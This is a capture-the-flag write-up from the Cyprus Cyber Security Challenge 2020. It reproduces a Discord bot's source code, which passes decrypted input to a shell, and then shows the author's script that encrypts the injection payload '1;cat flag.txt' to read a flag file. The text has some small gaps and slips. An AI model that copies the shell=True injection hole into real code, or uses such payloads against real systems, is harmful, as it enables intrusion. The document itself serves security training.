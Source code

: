 # CCSC2020
## WriteUps for the Cyprus Cyber Security Challenge

![Jaskier Challenge](Jaskier.JPG)

At this challenge, we were 
ded with an automated Discord bot - Jaskier - which had the following functionalities:
!help !frappe !ls !pwd !viewcode <function> !revenc <string>

###!help

| Jaskier: |
==============================
*!frappe*

*Return a frappe for you*

*!ls*

*Returns the contents of the home directory*

*!pwd*

*Returns the current directory*

*!viewcode <function>*
  
*Returns the code of the given function. Be careful with that one!*
*Available functions: decrypt, hmask, h_rotl, blockify, cnt, revenc, pwd, ls, frappe*

*!revenc <string>*
  
*Reverses an encrypted string*
*Example of reversing 'Hello World': !revenc SJVsbG9Ap2+yzGEA|*

Thus I started playing around with these functions
The result of !ls returned 4 files:
.bashrc
.profile
.bash_logout
flag.txt

The goal became obvious: *Find a way to inject code from the revenc function so that to cat the flag.txt file and get the flag*. 

After gathering all the functions together with the help of the !viewsource function, and reassemblying the parts together I was  able to view the complete source code of the bot:

```python
BLOCK_SIZE = 2
TABLE_DIM = 4

def decrypt(ct):
    dec = [] 
    blocks = blockify(ct, BLOCK_SIZE, b'\x00') 
    for blk in blocks:
        blk_int = int.from_bytes(blk, byteorder='big')
        for n in range(TABLE_DIM, -1, -1):
            a,b = cnt(blk_int, TABLE_DIM, n)
            blk_int = h_rotl(blk_int, a, TABLE_DIM, b)
        dec.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
    return b''.join(dec).strip(b'\x00')
def hmask(size, idx):
    return 2**size-1 << idx*size
#masking: setting size-1 bits on and shift them by idx*size 

def h_rotl(pt, rot, size, idx):
    """
    Horizontal left rotation. 
    """
    m = hmask(size, idx)
    blk = pt & m 
    #turning off idx*size bites from pt
    rot = rot % size
    #modulo
    r = ((blk << rot) | (blk >> (size - rot))) & m
    return pt ^ blk | r

def blockify(inpt, size, pad):
    return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]
    
def cnt(pt, size, idx):
    a,b = 0,0
    pt = pt >> idx * size
    for _ in range(size):
        if pt % 2 == 0: a+=1 
        else: b += 1 
        pt = pt >> 1
    return a,b

def revenc(ctx, params):
    try:
        dec_in = decrypt(base64.b64decode(params)).decode('utf-8')
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
        result = getResult.read()
        await ctx.channel.send(result.decode())
        print(dec_in)
    except Exception as e:
        print(e)
        await ctx.channel.send("Ops, something went wrong..")  
```
This particular line caught my attention, since it was passing the result of the decryption function into a subprosess as a variable {dec_in} via shell (shell = True)! 
```python 
        getResult = subprocess.Popen(f'echo {dec_in} | rev', shell=True, stdout=subprocess.PIPE).stdout
```
Therefore all the environment variables and file globs could be accessed if we could inject the payload "1;cat flag.txt". 
By using the semicolon, we escape the brackets {}, and we assign the value 1 to the variable dec_in and we close the first argument. Then we can execute the command cat and extract the data from the flag file and voila, we have the flag.

The problem now is how can we assign these value to the dec_in variable.

Since we can only view the decryption function, we should create an encryption function, which will be encapsulating the string "1;cat flag.txt" to a form that after being decrypted would result to that plaintext in byte-form.

### Reversing the algorithm:

The cipher text was firstly been "blockified" into 4 by 4 blocks and then padded with null characters so that to match the desired size. Then with hmask() the blocks were shifted horizontaly using the parameters a and b. Since the shifting wasn't constant we had to construct an encyption function and take advantage of the existing cnt() function so that to   the value of a and b. 

### The solution:

The only thing left is to reverse the shifting in the h_rotr() function. Thus by providing the plaintext it can encode it using the same process in reverse. Then we encrypt the result in base 64 since at the decryption process is decrypted from base64 to bytes. Here is the complete source code.
```python
import base64
BLOCK_SIZE = 2
TABLE_DIM = 4

def h_rotr(pt, rot, size, idx):
  m = hmask(size, idx)
  blk = pt & m
  rot = rot % size
  r = ((blk >> rot) | (blk << (size - rot)))  & m #We change the shifting to reverse the decryption process
  return pt ^ blk | r

def encrypt(pt):
  enc = []
  blocks = blockify(pt, BLOCK_SIZE, b'\x00')
  for blk in blocks:
      blk_int = int.from_bytes(blk, byteorder='big')
      for n in range(TABLE_DIM):
          a,b = cnt(blk_int, TABLE_DIM, n)
          blk_int = h_rotr(blk_int, a, TABLE_DIM, b)
      enc.append(blk_int.to_bytes(BLOCK_SIZE, byteorder='big'))
  print(enc)
  return b''.join(enc)
  
def blockify(inpt, size, pad):
  return [inpt[i:i+size].ljust(size, pad) for i in range(0, len(inpt), size)]

def cnt(pt, size, idx):
  a,b = 0,0
  pt = pt >> idx * size
  for _ in range(size):
    if pt % 2 == 0: a+=1 
    else: b += 1 
    pt = pt >> 1
  return a,b

def hmask(size, idx):
  return 2**size-1 << idx*size

s = b'1;cat flag.txt'
print(s)
a = base64.b64encode(encrypt(s))
print(a)
```
We pass the output to the Jaskier bot and we get the flag
***
!revenc kWtswbSAZmwxx47U2NQ=
***
flag: CCSC{w1th_g3r4lt_0f_R1via_al0ng_c4me_th1s_b0t}
***
